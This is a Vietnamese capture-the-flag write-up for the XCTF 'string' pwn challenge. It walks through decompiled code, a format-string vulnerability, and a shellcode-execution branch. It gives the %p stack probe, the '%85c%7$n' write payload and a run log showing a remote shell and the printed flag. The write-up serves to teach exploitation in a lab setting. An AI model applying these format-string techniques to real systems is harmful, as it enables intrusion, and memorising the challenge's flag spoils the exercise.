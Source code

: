 # XCTF - PWN Exercise - string

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/9_string λ checksec string 
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/9_string/string'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Vì code bài này khá dài nên mình sẽ không để toàn bộ code decompiler ở đây mà sẽ đi vào từng functions và phân tích chức năng và liên hệ giữa các functions qua trình dịch ngược IDA64 từ đó đưa ra khai thác. Bắt đầu từ hàm `main`.

```c
#include<stdio.h>

...

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  _DWORD *v4; // [rsp+18h] [rbp-78h]

  setbuf(stdout, 0LL);
  alarm(0x3Cu);
  sub_400996(60LL);

  v4 = malloc(8uLL);
  *v4 = 68;
  v4[1] = 85;

  puts("we are wizard, we will give you hand, you can not defeat dragon by yourself ...");
  puts("we will tell you two secret ...");
  printf("secret[0] is %x\n", v4);
  printf("secret[1] is %x\n", v4 + 1);
  puts("do not tell anyone ");

  sub_400D72(v4);
  
  puts("The End.....Really?");
  return 0LL;
}
```

Chúng ta quan tâm tới con trỏ v4 được cấp phát động, `v4 = 68` và `v4[1] = 85` và tương ứng với `secret[0]` và `secret[1]` được in ra là địa chỉ của `v4[0]` và `v4[1]`. Tiếp theo là hàm `sub_400D72` với đối số là v4.

```c
#include<stdio.h>
...
unsigned __int64 __fastcall sub_400D72(__int64 a1)
{
  char s[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What should your character's name be:");
  _isoc99_scanf("%s", s);
  
  if ( strlen(s) <= 0xC )
  {
    puts("Creating a new player.");
    sub_400A7D();
    sub_400BB9();
    sub_400CA6(a1);
  }
  else
  {
    puts("Hei! What's up!");
  }
  return __readfsqword(0x28u) ^ v3;
}
...
```

Nhập `s` có độ dài nhỏ hơn 0xC, sau đó ta lần lượt phân tích ba hàm.

```c
#include<stdio.h>
...
unsigned __int64 sub_400A7D()
{
  char s1[8]; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(" This is a famous but quite unusual inn. The air is fresh and the");
  puts("marble-tiled ground is clean. Few rowdy guests can be seen, and the");
  puts("furniture looks undamaged by brawls, which are very common in other pubs");
  puts("all around the world. The decoration looks extremely valuable and would fit");
  puts("into a palace, but in this city it's quite ordinary. In the middle of the");
  puts("room are velvet covered chairs and benches, which surround large oaken");
  puts("tables. A large sign is fixed to the northern wall behind a wooden bar. In");
  puts("one corner you notice a fireplace.");
  puts("There are two obvious exits: east, up.");
  puts("But strange thing is ,no one there.");
  puts("So, where you will go?east or up?:");
  while ( 1 )
  {
    _isoc99_scanf("%s", s1);
    if ( !strcmp(s1, "east") || !strcmp(s1, "east") )
      break;
    puts("hei! I'm secious!");
    puts("So, where you will go?:");
  }
  if ( strcmp(s1, "east") )
  {
    if ( !strcmp(s1, "up") )
      sub_4009DD();
    puts("YOU KNOW WHAT YOU DO?");
    exit(0);
  }
  return __readfsqword(0x28u) ^ v2;
}
...
```

Hàm thứ nhất `sub_400A7D`, chỉ cần nhập `east` để đi tiếp đến các hàm sau.

```c
#include<stdio.h>
...
unsigned __int64 sub_400BB9()
{
  int v1; // [rsp+4h] [rbp-7Ch] BYREF
  __int64 v2; // [rsp+8h] [rbp-78h] BYREF
  char format[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v2 = 0LL;
  puts("You travel a short distance east.That's odd, anyone disappear suddenly");
  puts(", what happend?! You just travel , and find another hole");
  puts("You recall, a big black hole will suckk you into it! Know what should you do?");
  puts("go into there(1), or leave(0)?:");
  _isoc99_scanf("%d", &v1);
  if ( v1 == 1 )
  {
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    _isoc99_scanf("%ld", &v2);          
// nhap 1 dia chi tai v2 o day, sau do thay doi gia tri dc luu tru trg dia chi nay thong qua lo hong chuoi dinh dang
    puts("And, you wish is:");
    _isoc99_scanf("%s", format);
    puts("Your wish is");
    printf(format);
    puts("I hear it, I hear it....");
  }
  return __readfsqword(0x28u) ^ v4;
}
...
```

Hàm thứ hai `sub_400BB9`, sau khi nhập `1` là giá trị của `v1` ta thấy `printf(format)` => chúng ta có thể sử dụng lỗ hổng kiểu chuỗi định dạng. Chúng ta có thể nhập một địa chỉ tại `v2` ở trên, và sau đó thay đổi giá trị được lưu trữ trong địa chỉ này thông qua lỗ hổng chuỗi định dạng đối với chuỗi kí tự `format`.

```c
#include<stdio.h>
...
unsigned __int64 __fastcall sub_400CA6(_DWORD *a1)
{
  void *v1; // rsi
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!");
  puts("Dragon say: HaHa! you were supposed to have a normal");
  puts("RPG game, but I have changed it! you have no weapon and ");
  puts("skill! you could not defeat me !");
  puts("That's sound terrible! you meet final boss!but you level is ONE!");
  if ( *a1 == a1[1] )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    read(0, v1, 0x100uLL);
    ((void (__fastcall *)(_QWORD))v1)(0LL);
  }
  return __readfsqword(0x28u) ^ v3;
}
...
```

Hàm thứ ba `sub_400CA6(a1)`, đối số `a1` chính là con trỏ kiểu int `v4` ở hàm main, là địa chỉ nơi lưu trữ giá trị 65. Đọc nội dung trong hàm if cụ thể là chương trình sẽ đọc 1 chuỗi bằng con trỏ `v1` sau đó sẽ trỏ tới vị trí bắt đầu của chuỗi đó => có thể sử dụng shellcode tại `v1` này. 

Vấn đề là để thực thi nội dung trong if ta cần `*a1 == a1[1]` hay chính là `v4[0] = v4[1]`. Ta thấy hàm thứ hai `sub_400BB9` có lỗi `format-string`, từ đó có thể dùng lỗi fmt để làm v4[0] và v4[1] bằng nhau. 

Bây giờ những việc cần làm.

   +) Tìm xem biến `v2` của hàm `Hàm thứ hai sub_400BB9` là parameter thứ mấy.

   +) Sử dụng lỗi `Format string` của biến `format` để ghi đè giá trị v4[0] và v4[1] bằng nhau.

   +) Gửi shellcode x86_64 nữa là có thể lấy được flag. (shellcode execve(/bin/sh, 0, 0) x86_64 có rất nhiều trên mạng).
    
```
A voice heard in your mind
'Give me an address'
76
And, you wish is:
AAAAAAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
Your wish is
AAAAAAAA-0x7fba55b82723-(nil)-0x7fba55aa3077-0xd-(nil)-0x100603018-0x4c-0x4141414141414141-0x252d70252d70252d-0x2d70252d70252d70I hear it, I hear it....
Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!
```

0x4c = 76, v2 nằm ở parameter thứ 7 trên stack. Bây giờ khi nhập v2 ta sẽ nhập địa chỉ được in ra ở secret[0] - địa chỉ của v4[0], sau đó nhập chuỗi `format` là `%85c%7$n` với 85 là giá trị của `v4[1]`.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/9_string λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 60918: Done
31858704
[*] Switching to interactive mode

$ ls
bin
dev
flag
lib
lib32
lib64
string
$ cat flag
cyberpeace{18a12ffd12d25b6047764f255f5fd3a1}
$  
```
